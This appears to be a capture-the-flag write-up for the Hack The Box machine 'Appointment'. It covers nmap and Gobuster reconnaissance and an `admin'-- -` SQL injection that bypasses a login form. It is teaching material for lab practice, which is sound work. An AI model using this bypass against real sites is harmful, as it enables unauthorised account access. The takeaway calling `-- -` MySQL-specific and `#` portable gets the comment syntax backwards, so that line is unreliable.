



# 📅 Appointment
<div class="machine-properties">
  <span class="prop-ip">10.129.12.50</span> <span class="prop-badge linux">Linux</span> <span class="prop-badge very-easy">Very Easy</span> <span class="prop-badge skills">SQL Injection</span> <span class="prop-badge skills">Gobuster</span>
</div>


Appointment is a **Very Easy** Linux box that demonstrates a classic SQL injection vulnerability in a login form. The admin username is guessable, so a simple `admin'-- -` comment-based payload is all it takes to bypass authentication and access the admin panel hiding the flag.

---

## Recon

A full port scan reveals a single open port — **HTTP** on port 80:

```
$ nmap -p- --open -sS --min-rate 5000 -vvv -n 10.129.12.50

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

A service scan identifies **Apache httpd 2.4.38** on Debian with a login page:

```
$ nmap -p80 -sCV 10.129.12.50

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

Key findings:
- **Single port** — one web server, one vulnerability
- **Apache 2.4.38 on Debian** — standard LAMP stack, likely PHP + MySQL behind it
- **Login page** — the only exposed functionality; the attack surface IS the login form

---

## Enumeration

Directory busting with Gobuster reveals nothing beyond the standard static assets:

```
$ gobuster dir -u http://10.129.12.50 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html -t 50

index.php            (Status: 200) [Size: 4896]
css                  (Status: 301) [Size: 310] [--> http://10.129.12.50/css/]
images               (Status: 301) [Size: 313] [--> http://10.129.12.50/images/]
js                   (Status: 301) [Size: 309] [--> http://10.129.12.50/js/]
vendor               (Status: 301) [Size: 313] [--> http://10.129.12.50/vendor/]
fonts                (Status: 301) [Size: 312] [--> http://10.129.12.50/fonts/]
server-status        (Status: 403) [Size: 277]
Progress: 661671 / 661671 (100.00%)
```

No hidden panels, no `/admin` path, no backup files — everything confirms that the login page IS the target.

---

## Foothold

The login form presents username and password fields with no CAPTCHA, no CSRF token, and no rate limiting — ideal conditions for SQL injection.



### Step 1 — Confirm the vulnerability

Testing with a single quote in the username field (`admin'`) produces no visible error, but the behavior suggests the input reaches a SQL query directly.



### Step 2 — Bypass with comment-based payload

The underlying query likely follows the classic vulnerable pattern:

```sql
SELECT * FROM users WHERE username='$user' AND password='$pass'
```

Injecting `admin'-- -` in the **username** field (leaving password blank) transforms it into:

```sql
SELECT * FROM users WHERE username='admin'-- -' AND password=''
```

The `-- -` comments out the rest of the query, so only `username='admin'` is evaluated. Since the admin user exists, the database returns that row and logs us in.

```
Username: admin'-- -
Password: <empty>
```



The injection succeeds — the application logs us in as an administrator, revealing the flag directly on the dashboard.

---

## Key Takeaways

- **Login forms are SQL injection goldmines** — if there's no CAPTCHA, no WAF, and no rate limiting, `admin'-- -` is the first payload to try when you suspect admin exists
- **Gobuster confirmed there were no hidden paths** — the entire attack surface was the login page; don't overcomplicate a Very Easy box
- **Comment-based bypass** — `admin'-- -` comments out the password check entirely, authenticating as admin without needing their password
- **Comment syntax matters** — `-- -` (space after double dash) is MySQL-specific; `#` and `--` (no trailing space) work on other DBMS
- The flag was accessible immediately after bypass — no privilege escalation, no file read, no lateral movement needed
